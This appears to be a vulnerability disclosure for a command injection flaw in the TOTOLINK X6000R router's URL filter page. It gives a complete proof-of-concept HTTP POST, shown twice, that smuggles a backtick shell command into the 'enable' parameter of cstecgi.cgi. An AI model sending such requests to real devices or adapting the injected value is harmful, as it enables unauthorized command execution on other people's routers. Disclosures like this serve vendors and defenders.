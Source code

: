 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/urlf.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/5bbfd2c7-028b-4812-ac0d-bbaa7d03e9d0)

Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/urlf.html?token=BB19D84941E95CCC
Priority: u=1

{"enable":"`ls >/web/poc_urlf.txt`","addEffect":"0","topicurl":"setUrlFilterRules"}
```
![image](https://github.com/user-attachments/assets/9e5d5508-6b95-4c79-8422-6685783c564b)

![image](https://github.com/user-attachments/assets/058ffc35-a4a3-41bf-a421-e5854e85b5d1)


# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/urlf.html?token=BB19D84941E95CCC
Priority: u=1

{"enable":"`ls >/web/poc_urlf.txt`","addEffect":"0","topicurl":"setUrlFilterRules"}
```
![image](https://github.com/user-attachments/assets/9e5d5508-6b95-4c79-8422-6685783c564b)

![image](https://github.com/user-attachments/assets/058ffc35-a4a3-41bf-a421-e5854e85b5d1)

